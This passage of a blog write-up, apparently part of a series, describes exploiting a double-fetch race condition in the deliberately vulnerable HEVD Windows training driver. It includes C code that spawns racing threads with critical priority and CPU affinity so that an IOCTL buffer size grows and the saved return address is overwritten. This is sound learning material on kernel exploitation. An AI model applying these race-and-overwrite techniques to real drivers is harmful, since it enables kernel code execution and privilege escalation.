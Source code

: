 ```c

    return NULL;
}

// ...
```

These are the two functions being called on seperate threads. The `ChangeStruct` thread runs until the `raceWon` global variable is no longer set to `0x00`. The idea is that when the `SendIOCTL` function runs, sending the acceptable data size of `0x800`, this second function at some point will win the race condition and set the buffer size to `0x828`, overwriting the saved return address on the stack giving us control of code flow.

One other thing to note is my final shellcode function takes the address of the global function (placed on the stack) and sets it to `0x01` to stop the thread from running.

The following code sets up the two threads:

```c
// this thread will try to win the race
HANDLE tChangeStruct = CreateThread(NULL,
    NULL, ChangeStruct, NULL, CREATE_SUSPENDED, NULL);

    
// make the thread critical and run on CPU0
SetThreadPriority(tChangeStruct, THREAD_PRIORITY_TIME_CRITICAL);
SetThreadAffinityMask(tChangeStruct, 0);
ResumeThread(tChangeStruct);
    
DWORD cpuIndex = 1;

// this thread continuously calls the vulnerable hevd IOCTL
while(!raceWon)
{
   // make the thread critical and run on CPU0
   HANDLE tIOCTL = CreateThread(NULL,
       NULL, SendIOCTL, NULL, CREATE_SUSPENDED, NULL);
   SetThreadPriority(tIOCTL, THREAD_PRIORITY_TIME_CRITICAL);
   SetThreadAffinityMask(tIOCTL, cpuIndex);
        
   ResumeThread(tIOCTL);
        
   cpuIndex++;
   if (cpuIndex >= sysInfo.dwNumberOfProcessors)
       cpuIndex = 1;
}
```

If you have read the previous attempts then this code should look familiar, except the continuous setting up of the `tIOCTL` thread is also controlled by the `raceWon` global variable. I have also added some code to set the priority of the threads and the CPU affinity based upon the number of processors available.

This dramatically reduced the amount of time I needed to wait for a race condition to trigger the double fetch. It went down to roughly 2 minutes. During debugging this is still a pain, so I used the `WinDbg` 'hack' as shown in [part 2](https://plackyhacker.github.io/kernel/race-2) of my first attempt.

